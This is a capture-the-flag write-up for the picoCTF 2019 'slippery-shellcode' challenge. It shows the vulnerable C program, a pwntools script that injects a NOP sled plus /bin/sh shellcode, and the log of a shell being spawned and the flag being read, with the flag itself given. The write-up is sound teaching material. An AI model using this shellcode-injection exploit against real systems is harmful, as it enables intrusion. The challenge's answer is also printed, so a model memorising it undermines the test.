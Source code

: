 # slippery-shellcode
## Question
>This [program](files/vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in `/problems/slippery-shellcode_5_5cea4ae04c57923484bda350da9f4015` on the shell server. [Source](files/vuln.c).

## Hint
>NA

# Solution
## Source code
As you can see, because of the random offset, the program won't jump to the start of the buffer, but will instead jump to a random location within the first 256 bytes of the buffer.

What we need to do is prepend our shellcode with `NOP` instructions (`asm(shellcraft.nop()`).

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Prepare the exploit
Let's first use `pwn template` to prepare our exploit template:
~~~~
$ pwn template --host 2019shell1.picoctf.com --user sdam --path /problems/slippery-shellcode_5_5cea4ae04c57923484bda350da9f4015/vuln > exploit.py
~~~~

Edit the `exploit.py` script and replace the `EXPLOIT GOES HERE` section with the following content:
```python
io = start()
shellcode = asm(shellcraft.sh())
io.recvuntil("Enter your shellcode:")
payload = fit({256: shellcode}, filler = asm(shellcraft.nop()))
io.sendline(payload)
io.interactive()
```

## Run the exploit
~~~~
$ ./exploit.py 
[*] '/data/documents/challenges/picoCTF_2019/binary-exploitation/200-slippery-shellcode/files/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] sdam@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (11B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.oyw8UOIoTV'
[+] Opening new channel: 'ln -s /home/sdam/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[+] Starting remote process b'/problems/slippery-shellcode_5_5cea4ae04c57923484bda350da9f4015/vuln' on 2019shell1.picoctf.com: pid 3717218
[*] Switching to interactive mode

\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90jhh///sh/bin\x89\xe3h\x814$ri1\xc9Qj\x04\xe1Q\x89\xe11\xd2j\x0b̀
Thanks! Executing from a random location now...
$ $ pwd
/tmp/tmp.oyw8UOIoTV
$ $ cat /problems/slippery-shellcode_5_5cea4ae04c57923484bda350da9f4015/flag.txt
picoCTF{sl1pp3ry_sh311c0d3_ecc37b22}
~~~~

# Flag
`picoCTF{sl1pp3ry_sh311c0d3_ecc37b22}`
